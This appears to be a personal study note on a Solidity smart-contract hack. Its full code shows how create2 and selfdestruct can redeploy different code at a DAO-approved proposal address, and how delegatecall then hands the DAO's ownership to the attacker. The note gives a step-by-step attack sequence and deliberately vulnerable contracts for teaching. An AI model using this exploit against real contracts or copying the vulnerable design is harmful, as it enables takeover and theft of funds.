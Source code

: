 #loss-of-access 

https://solidity-by-example.org/hacks/deploy-different-contracts-same-address/
https://www.youtube.com/watch?v=whjRc4H-rAc
[[Create and Create2]]
[[Self Destruct]]

This one is little complicated, 
First attacker needs to deploy  `DeployerDeployer` and let it deploy `Deployer` using `create2`  (at `addressDeployer` )
`Deployer` then deploys a `Proposal` using `create`
Get the DAO to approve the `Proposal`
Then attacker deletes the `Proposal` with `emergencyStop()`


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

/*
Called by Alice
0. Deploy DAO

Called by Attacker
1. Deploy DeployerDeployer
2. Call DeployerDeployer.deploy()
3. Call Deployer.deployProposal()

Called by Alice
4. Get DAO approval of Proposal

Called by Attacker
5. Delete Proposal and Deployer
6. Re-deploy Deployer
7. Call Deployer.deployAttack()
8. Call DAO.execute
9. Check DAO.owner is attacker's address

DAO -- approved --> Proposal
DeployerDeployer -- create2 --> Deployer -- create --> Proposal
DeployerDeployer -- create2 --> Deployer -- create --> Attack
*/

contract DAO {
    struct Proposal {
        address target;
        bool approved;
        bool executed;
    }

    address public owner = msg.sender;
    Proposal[] public proposals;

    function approve(address target) external {
        require(msg.sender == owner, "not authorized");

        proposals.push(
            Proposal({target: target, approved: true, executed: false})
        );
    }

    function execute(uint256 proposalId) external payable {
        Proposal storage proposal = proposals[proposalId];
        require(proposal.approved, "not approved");
        require(!proposal.executed, "executed");

        proposal.executed = true;

        (bool ok,) = proposal.target.delegatecall(
            abi.encodeWithSignature("executeProposal()")
        );
        require(ok, "delegatecall failed");
    }
}

contract Proposal {
    event Log(string message);

    function executeProposal() external {
        emit Log("Excuted code approved by DAO");
    }

    function emergencyStop() external {
        selfdestruct(payable(address(0)));
    }
}

contract Attack {
    event Log(string message);

    address public owner;

    function executeProposal() external {
        emit Log("Excuted code not approved by DAO :)");
        // For example - set DAO's owner to attacker
        owner = msg.sender;
    }
}

contract DeployerDeployer {
    event Log(address addr);

    function deploy() external {
        bytes32 salt = keccak256(abi.encode(uint256(123)));
        address addr = address(new Deployer{salt: salt}());
        emit Log(addr);
    }
}

contract Deployer {
    event Log(address addr);

    function deployProposal() external {
        address addr = address(new Proposal());
        emit Log(addr);
    }

    function deployAttack() external {
        address addr = address(new Attack());
        emit Log(addr);
    }

    function kill() external {
        selfdestruct(payable(address(0)));
    }
}

```